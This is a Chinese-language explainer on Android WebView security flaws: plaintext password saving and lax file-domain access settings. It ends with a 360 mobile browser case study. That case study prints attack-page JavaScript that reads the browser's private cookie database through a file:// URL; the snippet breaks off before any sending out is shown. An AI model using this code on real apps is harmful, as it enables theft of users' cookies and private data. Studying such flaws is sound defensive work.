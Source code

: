 ##### <1> WebView 密码明文存储漏洞——setSavePassword(true)

WebView 默认开启密码保存功能 mWebView.setSavePassword(true)，如果该功能未关闭，在用户输入密码时，会弹出提示框，询问用户是否保存密码，如果用户确定，密码会被保存在`/data/data/com.package.name/databases/webview.db`，然后我们可以在 root 权限下直接拿出密码相关信息，因此建议用户密码加密存储

##### <2> **WebView 域控制不严格漏洞**

**setAllowFileAccess**

 

WebView 默认开启密码保存功能 mWebView.setAllowFileAccess(true) ，在 File 域下，能够执行任意的 JavaScript 代码，同源策略跨域访问能够对私有目录文件进行访问，APP 对切入 WebView 未对 file:/// 形式的 URL 做限制，会导致隐私信息泄漏，针对聊天软件会导致信息泄漏，针对浏览器软件，会导致 cookie 信息泄漏

 

**setAllowFileAccessFromFileURLs**

 

在 JELLY_BEAN 以前的版本默认是 setAllowFileAccessFromFileURLs(true), 允许通过 file 域 url 中的 Javascript 读取其他本地文件，在 JELLY_BEAN 及以后的版本中默认已被是禁止。

 

**setAllowUniversalAccessFromFileURLs**

 

在 JELLY_BEAN 以前的版本默认是 setAllowUniversalAccessFromFileURLs(true), 允许通过 file 域 url 中的 Javascript 访问其他的源，包括其他的本地文件和 http,https 源的数据。在 JELLY_BEAN 及以后的版本中默认已被禁止。

 

**案例：360 手机浏览器缺陷可导致用户敏感数据泄漏**

 

以 360 手机浏览器 4.8 版本为例，由于未对 file 域做安全限制，恶意 APP 调用 360 浏览器加载本地的攻击页面（比如恶意 APP 释放到 SDCARD 上的一个 HTML）后，就可以获取 360 手机浏览器下的所有私有数据，包括 webviewCookiesChromium.db 下的 cookie 内容

 

攻击页面关键代码

```
function getDatabase() { 
 
    var request = false;
 
    if(window.XMLHttpRequest) {
 
     request = new XMLHttpRequest();
 
      if(request.overrideMimeType) {
 
           request.overrideMimeType('text/xml');}
 
    }
 
    xmlhttp = request;
 
    var prefix = "file:////data/data/com.qihoo.browser/databases";
 
    var postfix = "/webviewCookiesChromium.db"; //取保存cookie的db
 
    var path = prefix.concat(postfix);
 
    // 获取本地文件代码
 
    xmlhttp.open("GET", path, false);
 
    xmlhttp.send(null);
 
    var ret = xmlhttp.responseText;
 
```